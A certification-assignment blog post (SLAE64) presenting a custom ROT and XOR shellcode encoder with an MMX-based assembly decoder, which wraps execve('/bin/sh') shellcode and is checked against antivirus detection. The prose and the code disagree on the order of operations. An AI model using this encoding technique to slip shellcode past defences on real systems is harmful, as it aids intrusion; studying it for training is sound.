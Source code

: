 ```yaml
---
layout: post
title: ROT & MMX XOR Encode
date: 2021-01-14 13:44:00
categories: posts
comments: false
en: true
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE64 certification. Today we are going to have a close 
look at a Custom Encoder. 

The fourth assignment from the seven requires the creation of a Custom Encoder, similar to the one shown in the course as the "Insertion Encoder". This should be written in the 
Assembly language, and converting such into [shellcode](https://es.wikipedia.org/wiki/Shellcode). Moreover, it is required that such is tested later on the C format.

##### The Encoder

As for the encoder itself, I have chosen to combine to simple techniques: ROT & XOR encoding. This encoder will:

+ Perform a positive ROT operation "shifting the bytes forward", 24 times.
+ XOR all bytes by 36.

#### The Decoder

The decoder follows an interesting procedure:

+ Performs a negative ROT operation "shifting the bytes backwards", 24 times.
+ XORs all bytes by 36. However, this will be done through the MMX registers.

#### The encoder

```term
#!/usr/bin/python

shellcode = (
"\x48\x31\xc0\x48\x31\xf6\x48\x31\xdb\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
)

encoded = ""
encoded2 = ""

rot = 24

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :

                                y = x^0x36
                                z = (y + rot)%256

                                encoded += '\\x'
                                encoded += '%02x' % z

                                encoded2 += '0x'
                                encoded2 += '%02x,' % z


print '"' + encoded + '"'

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

#### Final code

```term
global _start

_start:

      jmp short master       ; Jumps to function "master".

main:

      pop rbp                ; Pops the value to use when XORing in RBP.

      lea rdi, [rbp + 8]     ; Points to the shellcode.

      xor rcx, rcx           ; Zeroes out RCX.
      mov cl, bytes_length   ; Gives cl the length of the shellcode. This sets a counter.

rot:

      sub byte [rdi], 24     ; Negatively rotates RDI by 24.
      inc rdi                ; Increments RDI.
      loop rot               ; Loops this process.

      lea rdi, [rbp + 8]     ; Points to the shellcode.

      xor rcx, rcx           ; Zeroes out RCX.
      mov cl, 5              ; Gives cl the length of the shellcode. As the following operation will be done from 8-bytes in 8-bytes, it isn't required to specify the complete 
                             ; length of the shellcode.

xor:

       movq mm0, qword [rbp] ; Saves QWORD RBP into MM0.
       movq mm1, qword [rdi] ; Saves QWORD RDI into MM1.

       pxor mm0, mm1         ; XORs MM0 and MM1.

       movq qword [rdi], mm0 ; Saves the value of MM0 (XORed piece of shellcode) into RDI (stores original shellcode).
       add rdi, 8            ; Adds 8 to RDI in order to continue with the process.

       loop xor              ; Loops this process.

       jmp bytes             ; Jumps to the original shellcode.

master:

      call main
      value: db 0x36, 0x36, 0x36, 0x36, 0x36, 0x36, 0x36, 0x36
      bytes: db 0x96,0x1f,0x0e,0x96,0x1f,0xd8,0x96,0x1f,0x05,0x7e,0x96,0xa5,0x31,0x31,0x6c,0x77,0x70,0x31,0x5d,0x76,0x7d,0x96,0xd7,0xe9,0x7e,0x96,0xd7,0xec,0x79,0x96,0xd7,0xe8,0x9e,0x25,0x51,0x4b
      bytes_length equ $-bytes
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_4$ gcc rot-mmx_xor.c -o rot-mmx_xor -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_4$ ./rot-mmx_xor 
Shellcode Length:  32
$
```

#### Extra bits

For the sake of curiosity, I chose to submit this file within [VirusTotal.com](http://virustotal.com) and find out the rate of detection. Interestly enough, this caught me off 
guard!

![](/assets/img/SLAE/SLAE64/1.png)

###### Hash: b474e66209c6f09c59b5e33780a1a94c2dce9b82857cff2b0c65eb233bc0508c

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE64-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/SLAE64/Assignment_4).
